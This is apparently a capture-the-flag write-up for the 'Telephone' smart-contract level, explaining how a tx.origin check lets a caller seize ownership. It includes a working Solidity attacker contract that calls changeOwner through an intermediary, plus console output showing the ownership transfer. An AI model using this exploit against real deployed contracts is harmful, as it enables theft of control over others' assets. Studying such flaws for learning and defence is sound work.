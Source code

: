 # Telephone

To complete this level we need to take ownership of the contract.

# Code Breakdown

[The Smart Contract's Code can be seen here.](Telephone.sol)

```
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

This contract has only main function `changeOwner(address _owner)`, it simply checks if `tx.origin` is different to `msg.sender`.

### Level Completion

If we try to call the `changeOwner` function from our console using web3js, we will not get ownership. So let's see the difference between `tx.origin` and `msg.sender`.

Ethereum has two types of addresses:
* EOA (externally owned address), also known as wallet "public" address which is only used to transfer or receive ether.
* CA (contract address), it refers to the address hosting smart contract's code.

`tx.origin` is the address of the ***EOA*** from which originates the transaction, while `msg.sender` is the address of the account from which the current call is coming from which could be an ***EOA*** or a ***CA***.

This means that in order to take ownership we will need to call the `changeOwnership` function from a contract where `msg.sender` will be the address of our contract while `tx.origin` will always be the wallet address who deployed the contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneHack {
    function hack() public {
        // address of the game instance
        address instanceAddr = 0xc5B6fdDEB5a918b217c04913BE4eE7F0f9eF866a;
        // address of the new owner
        address newOwnerAddr = 0xa0D3DFEE9945d53532aDaF60acB4421de5baecA8;

        Telephone tel = Telephone(instanceAddr);
        tel.changeOwner(newOwnerAddr);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

compile, deploy and interact with our smart contract using [Remix IDE](https://remix.ethereum.org/), then calling the `hack()`. the owner address now changes to `newOwnerAddr`.

```js
>  await contract.owner()
<· "0xa0D3DFEE9945d53532aDaF60acB4421de5baecA8"